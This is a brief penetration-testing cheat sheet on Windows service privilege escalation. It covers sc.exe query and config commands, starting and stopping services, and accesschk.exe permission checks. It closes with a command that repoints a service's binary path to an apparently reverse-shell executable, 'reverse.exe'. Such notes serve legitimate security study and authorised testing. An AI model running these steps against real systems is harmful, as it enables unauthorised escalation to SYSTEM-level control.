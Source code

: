 ```yaml
---
description: >-
  Basic commands when abusing services to elevate privileges after being
  identified with a tool such as WinPEAS.
---
```


# Service Exploitation

### Basic Commands

#### Query the Configuration of a Service

```powershell
sc.exe qc $service_name
```

#### Query the Current Status of a Service

```powershell
sc.exe query $service_name
```

#### Modify an option of a service:&#x20;

```powershell
sc.exe config $service_name $option= $value
```

#### Start and Stop a Service

```powershell
net start/stop $service_name
```

### Accesschk.exe

#### Use [Accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) to validate service permissions:

```powershell
.\accesschk.exe /accepteula -uwcqv user $service_name
```

* What we are looking for in the output is the `SERVICE_START` and `SERVICE_STOP` permissions.
* We also want to confirm that it is running under a user with higher privileges (e.g., `LocalSystem`)

### Notes

* Validate if you can start/stop the service or the machine. If you cannot then you may not be able to use it to escalate your privileges.
* Check if we can reboot the system with `whoami /priv`
* An easy way to escalate privileges utilizing a service is to modify the binaries path. The following demonstrates an example of this:

```powershell
sc config $service_name binpath= "\"C:\Windows\Tasks\reverse.exe\""
```
